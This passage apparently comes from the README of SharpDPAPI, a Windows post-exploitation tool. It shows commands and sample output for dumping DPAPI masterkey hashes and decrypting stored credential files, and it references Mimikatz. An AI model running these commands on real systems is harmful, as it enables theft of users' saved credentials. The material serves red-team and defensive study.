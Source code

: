     C:\Temp>SharpDPAPI.exe masterkeys /hashes

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.11.3


    [*] Action: User DPAPI Masterkey File Triage

    [*] Will dump user masterkey hashes

    [*] Found MasterKey : C:\Users\admin\AppData\Roaming\Microsoft\Protect\S-1-5-21-1473254003-2681465353-4059813368-1000\28678d89-678a-404f-a197-f4186315c4fa
    [*] Found MasterKey : C:\Users\harmj0y\AppData\Roaming\Microsoft\Protect\S-1-5-21-883232822-274137685-4173207997-1111\3858b304-37e5-48aa-afa2-87aced61921a
    ...(snip)...

    [*] Preferred master keys:

    C:\Users\admin\AppData\Roaming\Microsoft\Protect\S-1-5-21-1473254003-2681465353-4059813368-1000\28678d89-678a-404f-a197-f4186315c4fa
    C:\Users\harmj0y\AppData\Roaming\Microsoft\Protect\S-1-5-21-883232822-274137685-4173207997-1111\3858b304-37e5-48aa-afa2-87aced61921a


    [*] User master key hashes:

    {42e95117-ff5f-40fa-a6fc-87584758a479}:$DPAPImk$1*3*S-1-5-21-1473254003-2681465353-4059813368-1000*des3*sha1*18000*09c49e9af9...(snip)...


#### credentials

The **credentials** command will search for Credential files and either a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

A specific credential file (or folder of credentials) can be specified with `/target:FILE` or `/target:C:\Folder\`. If a file is specified, {GUID}:SHA1 values are required, and if a folder is specified either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

If run from an elevated context, Credential files for ALL users will be triaged, otherwise only Credential files for the current user will be processed.

Using domain {GUID}:SHA1 masterkey mappings:

    C:\Temp>SharpDPAPI.exe credentials {44ca9f3a-9097-455e-94d0-d91de951c097}:9b049ce6918ab89937687...(snip)... {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}:f9bc09dad3bc2cd00efd903...(snip)...

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0
